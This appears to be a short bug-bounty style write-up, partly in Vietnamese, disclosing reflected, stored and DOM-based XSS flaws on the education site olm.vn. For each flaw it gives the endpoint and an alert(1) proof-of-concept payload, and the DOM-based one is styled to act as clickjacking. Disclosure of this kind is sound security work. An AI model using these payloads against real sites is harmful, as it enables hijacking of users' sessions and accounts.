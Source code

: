 # Reflected XSS + DOM Based XSS(Clickjacking) + Stored XSS (BONUS $$$)




## Reflected XSS 

Endpoint : https://olm.vn/lop-3/[xss bypass]

Inject : ```"123=123><img%20src/onerror=alert(1)>123123```

![](/Reflected_XSS.jpg)



## Stored XSS

Endpoint : https://olm.vn/?g=classes.checkuser 

Inject : ```<script>alert(1)</script>```

![](/Stored.jpg)


## DOM Based XSS(Clickjacking)

Endpoint : https://olm.vn/bg?q=[Inject]

Inject : ```'id=x tabindex=1 onfocusin=alert(1) style=color:white;top:-1000px;z-index:10000;height:10000px;width:100000px; class=1"'><h1>vhae&grade=0```

Ở đây ta có `'id=x tabindex=1 onfocusin=alert(1)` nhằm tạo ra xss ở thẻ `<a>`

Đoạn sau là style có cấu trúc chỉnh sửa `css` của thẻ nhằm tạo ra Clickjacking

Khi nạn nhân ấn vào bất kỳ đâu ở web thì sẽ bị xss

![](/Clickjacking.jpg)